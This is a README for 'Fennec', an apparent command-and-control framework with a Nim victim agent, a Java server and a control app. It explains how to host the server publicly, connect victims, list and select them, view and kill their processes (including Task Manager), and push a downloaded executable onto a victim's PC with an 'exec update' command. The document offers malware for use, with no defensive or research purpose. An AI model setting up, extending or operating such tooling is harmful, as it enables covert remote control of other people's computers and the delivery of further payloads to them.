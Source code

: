 # Fennec

<p align="center">
<img align='center' src="logo.jpeg" width=400px >
</p>

## Fennec Command and Control (C2) framework with three components: a victim agent, a server, and a control app. The victim connects to the server, and the control app manages the victim through the server.

## Requirements

### `JDK 21:` Required for running the server and control app.

### `Gradle 8.5:` Required for building and managing the Java server and control app.

### `NIM 21:` Required for compiling victim app.

## Instructions

1. **Host the Server**  
   Start the server and make it publicly accessible.

2. **Connect Clients and Victims**  
   Configure the client and victim to connect to the server by updating the IP address and port as needed.

## Usage

### Commands

- **List all connected victims:**

  ```bash
  lv

  ```

- **Select a victim:**

  ```bash
  sv <id>

  ```

  example:-

  ```bash
  sv 0

  ```

- **Execute commands on the selected victim:**  
  After selecting a victim using `sv <victim_id>`, you can execute the following commands:

  - **View running processes:**  
    Use the following command to display a list of all running processes on the selected victim:

  ```bash
  exec tasklist
  ```

  - **Kill a specific process:**  
    Use the following command to terminate a specific process on the selected victim:

  ```bash
  exec kill <process_name>
  ```

  **Example:**  
   To kill the Task Manager process (`taskmgr.exe`), use:

  ```bash
  exec kill taskmgr.exe
  ```

  - **Updating the victim app:**  
    Use the following command to terminate a specific process on the selected victim:

  URL should not be `https`

  ```bash
  exec update <url> <app_name>
  ```

  `app_name` is the way how victim app will save in victims pc

  **Example:**

  ```bash
  exec update example.com srv.exe
  ```
